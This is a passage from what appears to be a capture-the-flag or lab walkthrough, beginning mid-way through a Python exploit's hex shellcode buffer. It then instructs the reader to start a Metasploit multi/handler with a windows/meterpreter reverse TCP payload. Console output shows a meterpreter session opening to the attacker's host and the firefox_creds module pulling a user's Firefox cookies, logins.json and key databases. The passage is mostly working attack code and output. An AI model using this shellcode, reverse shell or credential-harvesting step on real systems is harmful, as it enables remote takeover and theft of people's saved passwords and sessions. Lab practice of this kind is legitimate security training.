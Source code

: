 ```
"\xda\xb0\x35\x12\xdb\xc0\x1c\xd1\x8f\x90\x36\xf0\xaf\x7b"
"\xc7\xfd\x65\x11\xcd\x69\x8c\xf7\xd6\xb7\xf8\xf5\xd8\x56"
"\xa5\x70\x3e\x08\x05\xd2\xef\xe9\xf5\x92\x5f\x82\x1f\x1d"
"\xbf\xb2\x1f\xf4\xa8\x59\xf0\xa0\x81\xf5\x69\xe9\x5a\x67"
"\x75\x24\x27\xa7\xfd\xcc\xd7\x66\xf6\xa5\xcb\x9f\x61\x45"
"\x14\x60\x04\x45\x7e\x64\x8e\x12\x16\x66\xf7\x54\xb9\x99"
"\xd2\xe7\xbe\x66\xa3\xd1\xb5\x51\x31\x5d\xa2\x9d\xd5\x5d"
"\x32\xc8\xbf\x5d\x5a\xac\x9b\x0e\x7f\xb3\x31\x23\x2c\x26"
"\xba\x15\x80\xe1\xd2\x9b\xff\xc6\x7c\x64\x2a\x55\x7a\x9a"
"\xa8\x72\x23\xf2\x52\xc3\xd3\x02\x39\xc3\x83\x6a\xb6\xec"
"\x2c\x5a\x37\x27\x65\xf2\xb2\xa6\xc7\x63\xc2\xe2\x86\x3d"
"\xc3\x01\x13\xce\xbe\x6a\xa4\x2f\x3f\x63\xc1\x30\x3f\x8b"
"\xf7\x0d\xe9\xb2\x8d\x50\x29\x81\x9e\xe7\x0c\xa0\x34\x07"
"\x02\xb2\x1c";
```

Change the payload in python script and start listener with metasplout `multi/handler` with payload `windows/meterpreter/reverse_tcp`.

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.7.222:4444 
[*] Sending stage (175686 bytes) to 10.10.206.76
[*] Meterpreter session 5 opened (10.18.7.222:4444 -> 10.10.206.76:49189) at 2022-10-05 22:58:07 +0300

meterpreter > 
```

```
msf6 exploit(multi/handler) > use post/multi/gather/firefox_creds
msf6 post(multi/gather/firefox_creds) > set session 5
msf6 post(multi/gather/firefox_creds) > run

[-] Error loading USER S-1-5-21-663372427-3699997616-3390412905-1000: Hive could not be loaded, are you Admin?
[*] Checking for Firefox profile in: C:\Users\natbat\AppData\Roaming\Mozilla\

[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release
[+] Downloaded cert9.db: /Users/vladislav/.msf4/loot/20221005230017_default_10.10.206.76_ff.ljfn812a.cert_577876.bin
[+] Downloaded cookies.sqlite: /Users/vladislav/.msf4/loot/20221005230018_default_10.10.206.76_ff.ljfn812a.cook_715879.bin
[+] Downloaded key4.db: /Users/vladislav/.msf4/loot/20221005230019_default_10.10.206.76_ff.ljfn812a.key4_878520.bin
[+] Downloaded logins.json: /Users/vladislav/.msf4/loot/20221005230020_default_10.10.206.76_ff.ljfn812a.logi_258189.bin

[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\rajfzh3y.default

[*] Post module execution completed
```
